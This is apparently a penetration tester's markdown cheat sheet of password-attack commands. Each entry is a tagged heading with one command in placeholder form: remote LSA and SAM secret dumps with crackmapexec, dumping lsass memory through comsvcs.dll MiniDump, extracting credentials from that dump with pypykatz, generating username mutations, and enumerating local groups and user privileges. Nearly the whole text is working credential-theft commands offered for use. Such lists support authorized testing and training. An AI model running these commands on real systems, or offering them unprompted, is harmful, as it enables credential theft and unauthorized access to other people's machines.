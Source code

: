 ## password attacks - remote - lsa dump netexec
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
crackmapexec smb <targetIP> --local-auth -u <user> -p <password> --lsa
```

## password attacks - remote - sam dump netexec
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
crackmapexec smb <targetIP> --local-auth -u <user> -p <password> --sam
```

## password attacks - local - get lsass process id
#plateform/windows #target/local #port/ #protocol/ #cat/ATTACK/
```
echo "Get-Process lsass"
```

## password attacks - local - dump lsass to file with privileged permissions powershell
#plateform/windows #target/local #port/ #protocol/ #cat/ATTACK/
```
echo "rundll32 C:\windows\system32\comsvcs.dll, MiniDump <lsassPID> C:\lsass.dmp full"
```

## password attacks - local - dump lsass pypycatz
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
pypykatz lsa minidump <pathLsass.dmp>
```

## password attacks - local - username mutations
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
./username-anarchy -i <pathUsernameBaseList>
```

## password attacks - local - Checking Local Group Membership
#plateform/windows #target/local #port/ #protocol/ #cat/ATTACK/
```
echo "net localgroup"
```

## password attacks - local - Checking Local User Account Privileges including Domain
#plateform/windows #target/local #port/ #protocol/ #cat/ATTACK/
```
echo "net user <user>"
```
